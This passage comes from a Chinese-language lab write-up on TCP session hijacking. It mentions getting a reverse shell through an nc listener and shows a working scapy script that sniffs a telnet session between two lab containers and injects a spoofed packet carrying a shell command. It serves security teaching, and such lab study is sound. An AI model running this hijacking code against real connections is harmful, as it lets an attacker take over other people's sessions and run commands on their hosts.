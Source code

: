先nc监听，再开另一个终端运行脚本，反向shell成功

![image-20220410223820792](readme.assets/image-20220410223820792.png)

抓包抓到了

![image-20220410223854245](readme.assets/image-20220410223854245.png)

## scapy自动

### 普通命令

脚本

```python
#!/usr/bin/python3
from scapy.all import *
SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23
def spoof(pkt):
	old_ip = pkt[IP]
	old_tcp = pkt[TCP]

	ip = IP( src = old_ip.src,
             dst = old_ip.dst
            )
	tcp = TCP( sport = old_tcp.sport,
			   dport = old_tcp.dport,
		       seq = old_tcp.seq,
			   ack = old_tcp.ack,
			   flags = "A"
			  )
	data = "\n ls\n"

	pkt = ip/tcp/data
	send(pkt,verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

user卡死 

![image-20220410224654491](readme.assets/image-20220410224654491.png)

抓包

![image-20220410224714462](readme.assets/image-20220410224714462.png)

### 反向shell
